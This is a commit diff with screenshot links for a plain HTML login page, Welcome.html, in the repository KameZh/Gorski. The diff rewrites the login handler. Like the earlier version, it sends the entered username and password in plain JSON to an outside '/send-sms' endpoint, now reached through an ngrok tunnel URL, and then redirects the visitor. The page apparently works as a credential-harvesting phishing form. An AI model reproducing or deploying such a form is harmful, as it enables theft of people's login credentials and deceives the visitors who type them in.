

Before and after one commit to KameZh/Gorski, a plain HTML site: page Welcome.html in a window 1280 px wide. Both pictures are taken after typing "Sample", "Sample123" into the empty fields and a click on the button "Login". Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
loginhugeas

```diff
--- a/Welcome.html
+++ b/Welcome.html
@@ -62,6 +62,12 @@
             margin-top: 15px;
             font-size: 14px;
         }
+        .error-msg {
+            color: red;
+            text-align: center;
+            margin-top: 10px;
+            display: none;
+        }
     </style>
     <script>
         document.addEventListener("DOMContentLoaded", function() {
@@ -71,25 +77,35 @@
             });
         });
 
-        function handleLogin() {
+        async function handleLogin() {
             const username = document.getElementById("username").value;
             const password = document.getElementById("password").value;
+            const errorMsg = document.getElementById("error-msg");
 
-            fetch('http://100.72.52.106:3000/send-sms', {
-                method: 'POST',
-                headers: {
-                    'Content-Type': 'application/json'
-                },
-                body: JSON.stringify({ username, password })
-            })
-            .then(response => response.text()) // Ensure backend sends plain text response
-            .then(data => {
-                window.location.href = "index.html"; // Redirect to index.html
-            })
-            .catch(error => {
-                console.error('Error:', error);
-                alert('Failed to send login details');
-            });
+            // Replace 'http://localhost:3000' with your Ngrok public URL
+            const SERVER_URL = "https://c91d-212-5-142-68.ngrok-free.app/send-sms";
+
+            try {
+                const response = await fetch(SERVER_URL, {
+                    method: 'POST',
+                    headers: { 'Content-Type': 'application/json' },
+                    body: JSON.stringify({ username, password })
+                });
+
+                if (!response.ok) {
+                    throw new Error("Server error: " + response.status);
+                }
+
+                const data = await response.text();
+                console.log("Server response:", data);
+
+                // Redirect only if response is successful
+                window.location.href = "index.html";
+            } catch (error) {
+                console.error("Error:", error);
+                errorMsg.textContent = "Failed to log in. Please try again.";
+                errorMsg.style.display = "block";
+            }
         }
     </script>
 </head>
@@ -107,6 +123,7 @@
             <input type="password" id="password" name="password" required>
         </div>
         <button type="submit" class="login-btn">Login</button>
+        <p id="error-msg" class="error-msg"></p>
     </form>
     <div class="footer">
         <p>Forgot your password? <a href="#">Reset it here</a></p>
```
